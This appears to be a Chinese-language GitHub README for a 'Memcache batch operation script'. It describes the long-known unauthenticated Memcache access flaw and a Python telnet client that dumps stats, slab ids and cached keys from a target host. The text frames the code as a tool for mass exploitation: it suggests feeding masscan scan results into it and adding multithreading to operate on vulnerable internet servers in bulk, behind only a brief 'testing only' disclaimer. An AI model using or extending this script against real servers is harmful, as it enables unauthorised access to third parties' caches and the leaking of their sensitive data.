

# Memcache 批量操作脚本  

## 0x00 说明
1. 虽然“Memcache 未授权访问”是一个公布很久的漏洞，但互联网中依然存在不少服务器未及时修复，部分服务器甚至导致敏感信息泄露。
2. 结合masscan扫描结果，利用该脚本，实现对存在“Memcache未授权访问”漏洞服务器的批量操作。
3. 脚本仅供测试，切勿用于非法用途，非法使用造成的后果与作者无关。


## 0x01 Memcache 未授权访问原理
[Memcache Exploit](http://niiconsulting.com/checkmate/2013/05/memcache-exploit/)
## 0x01 演示

测试输入：



## 0x02 下载

https://github.com/maskhed/python-memcached-stats  

## 0x03 源码

```
import re, telnetlib, sys

class MemcachedStats:

    _client = None
    _key_regex = re.compile(r'ITEM (.*) \[(.*); (.*)\]')
    _slab_regex = re.compile(r'STAT items:(.*):number')
    _stat_regex = re.compile(r"STAT (.*) (.*)\r")

    def __init__(self, host='localhost', port='11211', timeout=None):
        self._host = host
        self._port = port
        self._timeout = timeout

    @property
    def client(self):
        if self._client is None:
            self._client = telnetlib.Telnet(self._host, self._port,
                                            self._timeout)
        return self._client

    def command(self, cmd):
        ' Write a command to telnet and return the response '
        self.client.write(("%s\n" % cmd).encode('ascii'))
        return self.client.read_until(b'END').decode('ascii')

    def key_details(self, sort=True, limit=100):
        ' Return a list of tuples containing keys and details '
        cmd = 'stats cachedump %s %s'
        keys = [key for id in self.slab_ids()
            for key in self._key_regex.findall(self.command(cmd % (id, limit)))]
        if sort:
            return sorted(keys)
        else:
            return keys

    def keys(self, sort=True, limit=100):
        ' Return a list of keys in use '
        return [key[0] for key in self.key_details(sort=sort, limit=limit)]

    def slab_ids(self):
        ' Return a list of slab ids in use '
        return self._slab_regex.findall(self.command('stats items'))

    def stats(self):
        ' Return a dict containing memcached stats '
        return dict(self._stat_regex.findall(self.command('stats')))

def main(argv=None):
    if not argv:
        argv = sys.argv
    host = argv[1] if len(argv) >= 2 else '127.0.0.1'
    port = argv[2] if len(argv) >= 3 else '11211'
    import pprint
    m = MemcachedStats(host, port)
    pprint.pprint(m.keys())

if __name__ == '__main__':
    main()
```

在此源码基础上，添加对masscan扫描结果的处理以及多线程，即可实现批量操作。
